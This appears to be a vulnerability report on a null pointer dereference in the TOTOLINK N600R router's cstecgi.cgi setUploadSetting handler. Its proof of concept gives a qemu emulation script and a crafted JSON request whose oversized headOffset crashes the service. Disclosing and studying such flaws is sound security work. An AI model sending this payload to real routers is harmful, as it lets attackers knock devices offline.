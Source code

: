 # Bug Report: NPD in TOTOLINK N600R Router
A null pointer dereference null pointer dereference overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to cause denial of service.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Null pointer dereference

## Description:

The vulnerable code path within the `sub_41773C` function (setUploadSetting handler) of cstecgi.cgi extracts the `ContentLength` parameter and `headOffset` parameter. It has a size check for the `ContentLength`. However, the malloc size is the sum of both parameters, so we could set the `headOffset` as a large size to make the `malloc` return null. The null pointer is passed into `memset` without a null check, leading to a null pointer dereference resulting in a DoS attack.

![alt text](image-2.png)

## poc

We set a breakpoint before the function call `memset` at line 93. By dumping the registers, we can see that `v10` is null and `v7 + v5` is a positive value. By tracing the execution, we find a null pointer dereference occurs.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./sub_41773C.sh
```

```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

### sub_41773C.sh
```bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi.cgi  < sub_41773C.json
```
### sub_41773C.json
```json
{
    "topicurl" : "UploadCustomModule/setUploadSetting",
    "ContentLength" : "10000",
    "headOffset": "2147473646"
}
```